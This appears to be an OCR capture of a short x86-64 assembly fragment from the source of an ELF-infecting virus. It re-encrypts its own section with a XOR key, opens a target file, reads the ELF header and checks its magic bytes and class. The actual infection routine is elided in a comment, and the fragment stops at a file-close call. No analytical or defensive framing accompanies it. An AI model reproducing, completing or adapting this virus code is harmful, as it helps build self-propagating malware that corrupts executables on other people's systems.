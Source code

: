 ```assembly

virus_encrypted:
    ; Re-encrypt this section immediately
    XOR_ENCRYPT virus_encrypted, virus_encrypted_end - virus_encrypted, [rel xor_key_2]
    
    PUSH_ALL

    mov rax, SYS_open
    lea rdi, [rel path]
    mov rsi, 2
    xor rdx, rdx
    syscall

    lea rsi, [rel path]
    call sub_val

    cmp rax, 0
    jle .return
    mov r12, rax

    ; Clean buffers
    lea rdi, [rel elfb]
    mov rcx, 8
    xor rax, rax
    rep stosq

    lea rdi, [rel elfp0]
    mov rcx, 7
    xor rax, rax
    rep stosq

    lea rdi, [rel elfp1]
    mov rcx, 7
    xor rax, rax
    rep stosq

    ; Read ELF header
    mov rax, SYS_read
    mov rdi, r12
    lea rsi, [rel elfb]
    mov rdx, 64
    syscall

    ; ELF validation
    mov rcx, 4
    lea rsi, [rel elfh]
    lea rdi, [rel elfb]
    repe cmpsb
    test rcx, rcx
    jnz .close_file

    cmp byte [rel elfb + 4], 2
    jne .close_file

    mov al, [rel elfb + 0xa]
    test al, al
    jnz .close_file

    ; Infection logic continues...
    ; [Rest of the virus infection code remains the same]

.close_file:
    mov rax, SYS_close
```